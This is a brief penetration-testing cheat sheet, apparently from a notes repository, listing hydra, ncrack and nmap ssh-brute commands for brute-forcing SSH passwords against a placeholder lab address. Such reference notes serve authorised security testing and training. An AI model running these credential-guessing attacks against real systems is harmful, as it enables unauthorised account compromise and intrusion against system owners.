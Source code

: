 # Password cracking
### Cracking SSH Password

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ssh
```
```bash
ncrack -U <usernames list> -P <passwords list> ssh://10.10.10.10
```
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s <ip>
```
